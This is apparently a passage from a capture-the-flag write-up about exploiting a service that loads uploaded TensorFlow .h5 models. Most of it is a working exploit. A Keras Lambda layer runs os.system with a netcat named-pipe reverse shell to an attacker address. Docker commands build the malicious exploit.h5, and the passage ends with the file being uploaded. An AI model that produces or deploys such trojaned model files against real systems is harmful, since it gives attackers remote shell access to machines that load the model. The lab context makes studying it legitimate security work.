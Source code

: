 ![tensorflow](/images/Artificial/dashboard.png)

##### `requirement.txt` :

```text
tensorflow-cpu==2.13.1
```
and the extension of the file should be `.h5`

During our research, we came across this article about [TensorFlow Remote Code Execution with Malicious Model](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model).


#### Exploit :
we wrote our `tensorflow_cve.py` scripte
```python
import tensorflow as tf
import os
def exploit(x):
    import os
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.xx.xx 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")

```
then we user `doker` to generate our `exploit.h5`
```bash
$ sudo docker run -it --rm -v "$PWD":/app -w /app tensorflow/tensorflow:2.13.0 python3 tensorflow_cve.py 
```
##### Note:
make sure docker server is running
We upload our  `exploit.h5` file.
